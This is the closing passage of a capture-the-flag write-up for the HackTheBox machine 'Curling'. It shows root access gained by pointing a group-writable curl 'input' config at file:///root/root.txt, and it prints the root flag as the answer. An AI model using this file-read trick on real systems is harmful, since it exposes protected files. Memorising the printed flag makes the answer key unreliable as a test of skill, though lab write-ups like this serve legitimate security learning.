

*Figure 19 - `/home/floris/admin-area` contains `input` (`url = "http://127.0.0.1"`) and an empty `report`, both writable by group floris.*

So we can modify our URL to `file:///root/root.txt`, then we `cat report` and we can see we get our root.txt.



*Figure 20 - `cat report` after the change returns the root flag `7e7dbc0750dc8c87e370169f055f4f4e`, and the "You have solved Curling!" dialog confirms the pwn.*

> **Root flag**
>
> **Answer:** `7e7dbc0750dc8c87e370169f055f4f4e`
